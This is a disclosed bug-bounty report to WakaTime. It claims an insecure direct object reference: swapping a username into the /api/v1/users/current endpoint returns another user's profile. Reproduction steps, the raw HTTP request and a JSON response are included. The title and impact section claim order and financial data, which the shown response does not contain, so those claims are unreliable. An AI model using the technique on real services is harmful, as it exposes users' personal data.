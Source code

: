 # IDOR to view order information of users and personal information

## Report Details
- **Report ID**: 2524562
- **URL**: https://hackerone.com/reports/2524562
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2024-05-29T08:41:15.784Z
- **Disclosed**: 2024-06-02T05:16:04.606Z

## Reporter
- **Username**: hasn0x
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wakatime

## Vulnerability Information
Hi team,
I found one bug on your domain. It's IDOR bug.

##Summary:
Insecure Direct Object Reference ( IDOR ) is the method of controlling which users can perform a certain type of action or view set of data. Insecure Direct Object Reference ( IDOR ) is a vulnerability that allows an attacker to circumvent those controls and perform more actions than they are allowed to, or view content they typically don’t have access to. Such vulnerability, when exploited, could lead to massive loss of data.



##Steps To Reproduce:

1. Go to `https://wakatime.com/api/v1/users/current?`
2. Intercept your request. The request should look like this:
```
GET /api/v1/users/current? HTTP/2
Host: wakatime.com
Cookie: █████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers
```
3. Send request in repeater tab ( i will show that request in my PoC video)
4. Now cut the `current?` at the end of `/api/v1/users/current?` and enter the user ID or username of the  victim 
`exmaple: GET /api/v1/users/@hasn0xxxx`
5. You will get victims some information like this 
```
HTTP/2 200 OK
Server: nginx
Date: Wed, 29 May 2024 08:26:00 GMT
Content-Type: application/json
Content-Length: 1337
Vary: Cookie
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
X-Xss-Protection: 1; mode=block
Feature-Policy: accelerometer 'none';autoplay 'self';camera 'none';document-domain 'none';fullscreen 'self';geolocation 'none';gyroscope 'none';magnetometer 'none';microphone 'none';midi 'none';payment 'self';picture-in-picture 'none';sync-xhr 'self';usb 'none';
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: default-src 'self'; frame-ancestors 'self'; script-src 'self' 'unsafe-eval' https://js.stripe.com https://*.braintreegateway.com https://client.crisp.chat/ https://api.github.com https://www.google.com/ https://www.gstatic.com/ https://www.googletagmanager.com https://www.google-analytics.com https://heapanalytics.com https://*.heapanalytics.com; img-src 'self' data: https://cdn.loom.com/ https://checkout.paypal.com https://*.braintreegateway.com https://*.crisp.chat/ heapanalytics.com; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com/ https://fonts.gstatic.com/ https://client.crisp.chat/; font-src 'self' https://fonts.googleapis.com/ https://fonts.gstatic.com/ https://client.crisp.chat/; media-src 'self' https://*.amazonaws.com; frame-src 'self' https://www.google.com/ https://js.stripe.com/ https://hooks.stripe.com/ https://client.crisp.chat/ https://www.youtube.com/ https://www.loom.com/ player.vimeo.com checkout.paypal.com; object-src 'self'; connect-src 'self' api.github.com https://www.google.com/ www.google-analytics.com heapanalytics.com https://avatar-cdn.atlassian.com wss://*.crisp.chat/ https://*.crisp.chat/ https://api.stripe.com;

{
  "data": {
    "bio": "hiiiiiii",
    "city": {
      "ascii_name": "Dhaka",
      "ascii_state": "Dhaka Division",
      "country": "Bangladesh",
      "country_code": "BD",
      "id": "fc1d7f6d-0da8-43b3-b124-96d401e07c7e",
      "name": "Dhaka",
      "population": 10356500,
      "state": "Dhaka Division",
      "timezone": "Asia/Dhaka",
      "title": "Dhaka, Bangladesh"
    },
    "created_at": "2024-05-29T07:11:57Z",
    "display_name": "habibbhai",
    "full_name": "habibbhai",
    "github_username": "blablabla",
    "human_readable_website": "http://blablabla.com",
    "id": "d42f6787-f856-4c55-9ff3-cd8549f9efe0",
    "is_email_confirmed": false,
    "is_email_public": false,
    "is_hireable": false,
    "languages_used_public": false,
    "linkedin_username": "testlinkedin",
    "logged_time_public": false,
    "photo": "https://wakatime.com/photo/d42f6787-f856-4c55-9ff3-cd8549f9efe0",
    "photo_public": true,
    "profile_url": "https://wakatime.com/@hasn0xxxx",
    "profile_url_escaped": "https://wakatime.com/@hasn0xxxx",
    "public_email": null,
    "public_profile_time_range": null,
    "share_all_time_badge": false,
    "share_last_year_days": false,
    "twitter_username": "testetstets",
    "username": "hasn0xxxx",
    "website": "http://blablabla.com",
    "wonderfuldev_username": null
  }
}
```

** note : i used my account username*

## PoC : ████

## Impact

An IDOR (Insecure Direct Object Reference) vulnerability can have serious consequences if it allows attackers to view order information and personal data of users. Here's a breakdown of the potential impacts:

* **Unauthorized Data Exposure:**  This is the most concerning impact. Attackers can exploit IDOR to gain access to a wide range of sensitive information, including names, addresses, phone numbers, email addresses, order history, and even financial details like credit card numbers. This data can be used for identity theft, fraud, or even stalking.

* **Loss of Trust and Reputation:**  If a data breach occurs due to IDOR, it can severely damage the organization's reputation. Customers may lose trust in the company's ability to protect their data, leading to a loss of business and potential legal repercussions.

* **Financial Loss:**  Data breaches can be very expensive for organizations. They may face fines from regulatory bodies, lawsuits from affected users, and the cost of investigating and fixing the vulnerability.

Here are some additional points to consider:

* IDOR vulnerabilities can be exploited relatively easily, often by simply manipulating a URL or form parameter.

*  The impact of an IDOR attack can be amplified depending on the type of data exposed. Leaked order information can be used for targeted attacks, while financial data can lead to significant financial losses for victims.

*  IDOR vulnerabilities are not always limited to viewing data. In some cases, attackers might be able to manipulate or even delete data, causing further disruption and damage.
 
By understanding the potential impacts of IDOR, organizations can take steps to mitigate these risks by implementing proper authorization controls and validating user permissions before granting access to sensitive data.

## Attachments
No attachments
